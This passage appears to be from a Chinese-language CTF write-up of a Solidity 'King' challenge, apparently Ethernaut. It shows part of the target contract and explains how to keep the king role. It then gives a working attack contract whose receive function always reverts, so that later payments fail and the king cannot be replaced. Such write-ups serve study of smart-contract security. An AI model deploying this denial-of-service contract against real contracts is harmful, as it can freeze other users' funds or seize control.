 ```
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

给大于prize的value，或作为owner就可以改变king

为了防止owner改变king，我们成为king之后，让这个transfer失败回滚.

```
contract tobeking{
    constructor() payable {
    }
    receive() external payable {
        revert();
    }
    function start(address king)public payable{
         payable(king).transfer(msg.value);
    }
}
```

### 2024.09.01



